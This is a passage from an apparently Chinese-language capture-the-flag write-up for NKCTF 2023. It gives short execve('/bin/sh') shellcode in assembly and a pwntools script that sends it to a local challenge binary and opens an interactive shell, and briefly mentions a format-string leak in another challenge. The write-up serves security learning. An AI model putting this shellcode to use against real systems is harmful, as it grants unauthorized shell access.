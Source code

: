 清除rdx的方法还有cdq，该指令会将eax第31位赋值给edx所有的bit。

```asm
xor rsi, rsi
lea rdi, [r15+0xe]
cdq
mov ax, 59
syscall
"/bin/sh"
```

[9961code](/assets/binary/2023-04-13-NKCTF22/9961code_attachment.zip)

```python
from pwn import *

libc = ELF('./libc.so.6')
elf = ELF('./pwn')

context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

class Solve:

    def __init__(self, handle) -> None:
        self.handle = handle
    def solve(self):
        self.handle.recvuntil('In that case, you can only enter a very short shellcode!\n')
        payload = "xor rsi, rsi\n" \
                "mul esi\n" \
                "mov edi, 0x996100e\n" \
                "mov al, 59\n" \
                "syscall\n"
        payload = asm(payload)
        print(len(payload))
        payload += b"/bin/sh\x00"
        print(len(payload))
        #gdb.attach(self.handle)
        self.handle.send(payload)
        self.handle.interactive()


if __name__ == '__main__':
    p = process('./pwn')
    sol = Solve(p)
    sol.solve()
```

# message_boards

格式化溢出漏洞，可以直接泄露canary和_IO_2_1_stderr_。
